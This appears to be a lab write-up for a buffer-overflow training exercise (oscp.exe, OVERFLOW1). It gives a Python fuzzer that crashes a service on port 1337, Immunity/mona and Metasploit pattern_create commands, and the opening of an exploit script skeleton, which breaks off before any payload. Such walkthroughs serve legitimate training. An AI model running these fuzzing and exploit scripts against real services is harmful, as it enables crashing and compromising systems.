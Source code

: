 # Buffer Overflow Prep
## 24-06-2022
## level : easy



## oscp.exe - OVERFLOW1

Finding the fuzzing bytes
```
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.39.107"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
  
```

Create a mona working directory in immunity debugger
```
!mona config -set workingfolder c:\mona\%p
```

Create the Cyclic pattern of a length about 400 bytes longer than the actual bytes
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500
```

Copy the above output and put it into the `payload` of the following code (exploit.py)
```
import socket

ip = "10.10.39.107"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""

#        ||     
```